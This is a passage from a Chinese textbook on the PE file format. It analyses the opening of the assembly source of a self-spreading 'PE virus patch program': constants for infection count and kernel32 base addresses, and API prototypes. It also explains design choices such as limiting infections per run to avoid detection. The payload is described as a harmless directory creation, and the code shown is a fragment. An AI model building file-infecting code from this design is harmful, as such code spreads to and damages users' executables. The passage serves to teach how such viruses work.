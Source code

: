 这种指令跳转的方式在本书22.2.3节中也有过介绍。

## 23.2.2　补丁程序的源代码分析

本PE病毒补丁程序完整的源代码见代码清单23-2，共1164行。考虑到篇幅和学习方便，此处省略了一些常规的调用函数。

代码清单23-2　PE病毒补丁程序（chapter23\patch.asm）

------

```assembly
1 ;-------------------------
2 ;PE病毒补丁程序
3 ;本段代码使用了将代码添加到最后一节的方法
4 ;程序功能：实现创建目录的方法，具备传播功能
5 ;作者：戚利
6 ;开发日期：2010.7.7
7 ;-------------------------
8
9 .386
10 .model flat,stdcall
11 option casemap:none
12
13 include windows.inc
14
15
16 VIR_TOTAL_SIZE equ offset vir _end-offset vir _start
17 INFECTFILES equ 03h ;感染文件的个数
18 DEFAULT_KERNEL_BASE equ 07C800000h ;kernel32的默认基地址
19 DEFAULT_KERNEL_BASEwNT equ 077F00000h
20
21
```

------

==常量`VIR_TOTAL_SIZE`是病毒代码的总长度，包含数据和代码的长度==；==在对正常EXE文件打补丁的时候，该长度为EXE文件增加的长度==。==其计算方法为以下两个标号地址的差：`vir_end`和`vir_start`==。

==常量`INFECTFILES`是每次运行病毒时感染的文件个数==。==因为补丁程序不可能让病毒一次运行就把当前目录下所有的文件全部感染，在一个有上百或上千个EXE文件的目录中，这样做很容易被发现==。==每次感染文件个数一旦超过这个值，病毒代码则选择静默，不感染任何EXE文件，直到下一次运行才被激活==。

==常量`DEFAULT_KERNEL_BASE`记录了在Windows XP SP3中`kernel32.dll`被装入的基地址，不过这个值在整个程序编写过程中会自动获取，并且通常获取到的结果即是正确的结果==。==所以，你可以把这个值看成是一个摆设==。==同理，常数`DEFAULT_KERNEL_BASEwNT`则记录了NT下的`kernel32.dll`的基地址==。

------

```assembly
22 _ProtoGetProcAddress typedef proto :dword,:dword
23 _ProtoLoadLibrary typedef proto :dword
24 _ProtoCreateDir typedef proto :dword,:dword
```

------

==以上三行是补丁代码里用到的主要API函数的声明==。本书第11章讲过，==为了方便代码嵌入，必须在代码中将导入表去掉，由补丁程序自己加载它所需要调用的函数==。==在这里，补丁程序用最简单的`CreateDirectoryA`函数代替所有的病毒破坏代码==。
